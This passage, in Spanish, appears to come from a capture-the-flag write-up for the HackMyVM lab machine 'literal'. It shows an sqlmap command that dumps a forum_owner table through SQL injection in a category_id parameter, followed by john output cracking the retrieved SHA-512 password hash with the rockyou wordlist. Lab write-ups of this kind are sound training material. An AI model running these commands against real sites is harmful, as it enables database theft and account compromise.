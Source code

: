 Añado el subdominio a "/etc/hosts" y navego a ver que hay.

![img](/imgs/write-ups/hackmyvm/literal/literal_5.png#center)

Se puede ver un apartado de categoría que toma un id así que otra vez toca ir en busca de una vulnerabilidad SQLinjection.

```
sqlmap -u "http://forumtesting.literal.hmv/category.php?category_id=2" --batch --level 5 --risk 3 -D forumtesting -T forum_owner --dump
```

![img](/imgs/write-ups/hackmyvm/literal/literal_6.png#center)

Bingo!! He obtenido el hash de una contraseña.

Ahora utilizando **john**, crackeo la contraseña.

```
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA512
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
forum******      (?)     
1g 0:00:00:01 DONE (2023-04-21 05:11) 0.9708g/s 7830Kp/s 7830Kc/s 7830KC/s fourbullet..formy6600
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
